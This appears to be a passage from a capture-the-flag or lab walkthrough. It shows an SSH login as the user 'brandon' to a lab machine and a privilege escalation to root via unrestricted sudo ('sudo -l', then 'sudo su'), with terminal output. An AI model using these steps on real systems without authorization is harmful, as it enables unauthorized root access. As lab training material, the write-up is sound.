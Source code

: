 We ssh into the machine successfully as the user brandon. When we check `sudo -l` we find brandon is in the sudoers group. We simply `sudo su` and obtain `root` access.

```
┌──(root㉿kali)-[/home/kali/Documents/UGC]
└─# ssh brandon@192.168.174.140
brandon@192.168.174.140's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-177-generic x86_64)

$ sudo -L
sudo: invalid option -- 'L'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] [VAR=value] [-i|-s]
            [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
$ sudo -l
[sudo] password for brandon: 
Matching Defaults entries for brandon on parkmanagement:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User brandon may run the following commands on parkmanagement:
    (ALL : ALL) ALL

$ sudo su
root@parkmanagement:/home/brandon# cd /root
root@parkmanagement:~# id
uid=0(root) gid=0(root) groups=0(root)



```



